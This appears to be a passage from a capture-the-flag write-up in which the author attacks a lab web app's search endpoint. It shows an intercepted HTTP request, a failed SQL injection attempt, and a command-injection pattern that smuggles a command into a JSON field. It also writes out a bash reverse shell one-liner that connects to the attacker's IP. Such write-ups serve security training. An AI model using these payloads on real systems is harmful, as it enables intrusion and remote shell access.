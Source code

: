 ![web page authenticated](https://imgur.com/roPVoMC.png)

This appears to be a search engine. I enter some queries in, it only seems to output the following file names:

![search](https://imgur.com/khdvBUc.png)

I couldn't find a way of viewing these files so my next thought was to test out the actual input itself. I turned on my web proxy and used Burp Suite to intercept the web request:

This is what our request looks like:

<pre>POST /assets/php/search.php HTTP/1.1
Host: fox.thm
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 22
Origin: http://fox.thm
DNT: 1
Authorization: Basic cmFzY2FsOmthd2FzYWtp
Connection: close
Referer: http://fox.thm/

{"target":"something"}</pre>

Maybe we can test to see if this is vulnerable to SQL injection?

I sent the request to intruder, and pasted in a wordlist of SQL injection commands. No luck. 

![SQL attempt](https://imgur.com/sNmbvWz.png)

As you can see, all the responses are the same.

My next thought was testing to see if there is any character sanitisation. This was an interesting response as the input box would immediately remove any special characters such as "\ ; &" ...

If we can't input them on our web browser, let's try and input that via Burp Suite.

This is remote code execution - we need to execute our own command to ideally get a reverse shell. I set up Burp Suite intruder so I could see all the responses immediately. I aimed to essentially execute the following command:

<pre>bash -i >& /dev/tcp/10.9.6.63/4444 0>&1</pre>

Please refer to this article about reverse shells:

[Reverse Shell Cheatsheet](/cheatsheet/Reverse_Payload_Cheatsheet/)

## www-data

After **quite** a few attempts with the repeater and RCE wordlists, I was able to identify a pattern. I need to use \ to escape, then end the command with \n.

<pre>{"target":"\";[COMMAND]\n"}</pre>
